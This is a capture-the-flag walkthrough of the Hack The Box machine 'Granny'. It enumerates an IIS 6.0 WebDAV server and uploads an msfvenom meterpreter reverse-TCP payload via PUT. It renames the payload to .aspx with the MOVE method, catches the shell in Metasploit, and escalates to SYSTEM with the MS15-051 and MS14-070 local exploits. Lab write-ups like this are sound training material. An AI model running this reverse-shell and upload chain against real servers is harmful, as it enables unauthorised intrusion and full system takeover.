







# Granny

```bash
root@kali> echo '10.10.10.15 granny.htb' | sudo tee -a /etc/hosts
root@kali> nmap -sV -sC -oA granny granny.htb
```

If you did not install gobuster, install it in the `/otp` folder.

```bash
root@kali> cd /opt
root@kali> git clone https://github.com/OJ/gobuster.git
root@kali> cd gobuster
root@kali> make
```

Then run gobuster **in background** to enumerate web hierarchy.

```bash
root@kali> cd /otp/gobuster
root@kali> ./gobuster dir -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -u http://granny.htb -t 20
```

Then run nikto **in background** to enumerate web options.

```bash
root@kali> nikto -url http://granny.htb
```

When the NMap scan is completed, you can see there is a WebDAV server 6.0 running on the the target.

```bash
root@kali> davtest -url http://granny.htb
```

<figure><figcaption></figcaption></figure>

PUT files allowed : `.pl` `.jsp` `.cfm` `.html` `.txt` `.jhtml` `.php`

To grab all requests made with the **davtest** tool, you can create a proxy with **Burp Suite**. To do this, open Burp and go to **Proxy > Options > Proxy Listeners > Add**.

Specify the local port then enter the target IP address and its remote port. Then click on **OK**.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Once you created the proxy, run again the davtest tool and go to **Burp Suite > Proxy > HTTP History**. You will see all requests made with davtest.

<figure><figcaption></figcaption></figure>

Thus you can try to upload an HTML file on the server.

<figure><figcaption></figcaption></figure>

You can now create a payload with **msfvenom**.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f aspx
```

Copy/paste the payload instead of the "this is a test" and send the request. The code should be deployed.

<figure><figcaption></figcaption></figure>

Great, but HTML is not executed by the WebDAV server. In Burp, if you try to change the filename "ippsec.html" by "ippsec.aspx", it returns a FORBIDDEN response.

In the NMap output, you can see there is a MOVE method allowed on the target.

<figure><figcaption></figcaption></figure>

Google "HTTP Move" and you will see you must an additionnal Header in your request to move on ressource to another location.

<figure><figcaption></figcaption></figure>

Great, you changed the resource name! Now you can open a multi/handler in msfconsole.

```bash
root@kali> msfconsole
msf6> use exploit/multi/handler
msf6> set lhost 10.10.14.4
msf6> set lport 1337
msf6> set payload windows/meterpreter/reverse_tcp
msf6> run
```

Then execute the following command

```bash
root@kali> curl http://granny.htb/ippsec.aspx
```

You gain the meterpreter! Now you can set it in background and search for the post-exploitation module **suggester**.

```
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

Two of the listed modules work.

* exploit/windows/local/ms15\_051\_client\_copy\_image
* exploit/windows/local/ms14\_070\_tcpip\_ioctl

Set the session and run it, you will gain the **NT AUTHORITY\SYSTEM** user.
